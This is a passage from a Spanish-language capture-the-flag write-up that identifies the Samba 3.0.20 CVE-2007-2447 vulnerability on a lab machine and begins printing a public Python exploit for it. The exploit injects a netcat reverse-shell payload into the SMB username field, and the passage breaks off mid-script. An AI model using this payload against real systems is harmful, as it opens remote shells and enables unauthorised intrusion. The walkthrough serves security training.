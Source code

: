 Lanzamos el script de la siguiente forma `python3 49757.py 10.10.10.3`, pero no conseguimos entablar el backdoor. Tendremos que encontrar otro posible vector de ataque.

## SAMBA

Si vemos la versión de samba que nos mostraba nmap tenemos lo siguiente `445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)`, buscamos una vulnerabilidad para esta versión de 
samba.

```
searchsploit Samba 3.0.20
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                             | unix/remote/16320.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```

Parece ser vulnerable. Si hacemos una pequeña labor de investigación descubrimos que el CVE correspondiente es `CVE-2007-2447` tenemos un informe del 
<a href="https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2007-2447" target="_blank">Incibe</a> acerca de esta vulnerabilidad, por si le queréis echar un vistazo,
como no queremos tirar de Metasploit vamos a buscar un script que abuse de esta vulnerabilidad en Github.

Tenemos este repositorio de <a href="https://github.com/amriunix/CVE-2007-2447" target="_blank">Github</a> donde gracias a un script en python se puede conseguir entablar una reverse shell.
El autor explica la vulnerabilidad en su <a href="https://amriunix.com/post/cve-2007-2447-samba-usermap-script/" target="_blank">Blog<a>.

### Script usermap_script

Visualizamos el contenido del script:

```python
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: usermap_script.py
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/python
   2   │ # -*- coding: utf-8 -*-
   3   │ 
   4   │ # From : https://github.com/amriunix/cve-2007-2447
   5   │ # case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/
   6   │ 
   7   │ import sys
   8   │ from smb.SMBConnection import SMBConnection
   9   │ 
  10   │ def exploit(rhost, rport, lhost, lport):
  11   │         payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
  12   │         username = "/=`nohup " + payload + "`"
  13   │         conn = SMBConnection(username, "", "", "")
  14   │         try:
```